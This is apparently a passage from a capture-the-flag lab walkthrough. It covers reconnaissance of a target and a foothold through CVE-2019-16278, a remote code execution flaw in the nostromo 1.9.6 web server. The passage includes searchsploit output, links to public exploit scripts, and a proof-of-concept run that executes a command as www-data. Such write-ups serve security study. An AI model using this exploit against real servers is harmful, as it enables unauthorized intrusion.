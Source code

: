 ```console
Aggressive OS guesses: Linux 5.0 (90%), Linux 3.10 - 4.11 (90%), Linux 3.18 (90%), Linux 3.2 - 4.9 (90%), Linux 5.1 (88%), Crestron XPanel control system (86%), Linux 3.16 (86%), HP P2000 G3 NAS device (85%)
No exact OS matches for host (test conditions non-ideal).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

- http service: nostromo 1.9.6

## Foothold

### CVE-2019-16278

- searchsploit

```console
$ searchsploit nostromo 1.9.6
-------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                  |  Path
-------------------------------------------------------------------------------- ---------------------------------
nostromo 1.9.6 - Remote Code Execution                                          | multiple/remote/47837.py
-------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

- **Description**: **directory traversal** in the function **http_verify** in nostromo nhttpd through 1.9.6 allows an attacker to achieve remote code execution via a **crafted** HTTP request.
- **Exp Codes**:
  - [AnubisSec/CVE-2019-16278: A quick python exploit for the Nostromo 1.9.6 remote code execution vulnerability. Simply takes a host and port that the web server is running on. (github.com)](https://github.com/AnubisSec/CVE-2019-16278)
  - [aN0mad/CVE-2019-16278-Nostromo_1.9.6-RCE: Python script to exploit RCE in Nostromo nhttpd <= 1.9.6. (github.com)](https://github.com/aN0mad/CVE-2019-16278-Nostromo_1.9.6-RCE)
  - [jas502n/CVE-2019-16278: Directory transversal to remote code execution (github.com)](https://github.com/jas502n/CVE-2019-16278)
- POC:

```console
$ python exp.py 10.10.10.165 80 id
[+] Connecting to target
[+] Sending malicious payload
HTTP/1.1 200 OK
Date: Thu, 18 Jan 2024 22:37:28 GMT
Server: nostromo 1.9.6
Connection: close


uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
